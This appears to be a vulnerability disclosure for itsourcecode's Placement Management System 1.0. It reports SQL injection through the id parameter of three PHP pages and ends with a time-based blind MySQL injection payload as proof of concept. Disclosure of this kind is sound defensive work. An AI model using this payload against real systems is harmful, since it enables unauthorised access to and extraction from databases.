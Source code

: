 # Vendor

itsourcecode

# Product

Placement Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/04/Placement-Management-System-Project-In-PHP-Source-Code.zip

# Description

在view_company.php、view_drive.php、view_student.php页面中可以传入id参数，对数据进行查询。但是由于页面中针对id参数的过滤并不严格导致SQL注入的产生。
<img width="886" alt="image" src="https://github.com/user-attachments/assets/558cd99a-2ccf-48bc-aa9d-88900c12d7a6">
<img width="1024" alt="image" src="https://github.com/user-attachments/assets/99f63967-1c5f-42e1-b307-7723a625e4c5">
<img width="1099" alt="image" src="https://github.com/user-attachments/assets/e00c0138-94e5-4beb-8b5b-7aa6e0f4ea3f">

# Poc
```
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 5490 FROM (SELECT(SLEEP(5)))qDPR) AND 'HyHB'='HyHB
```
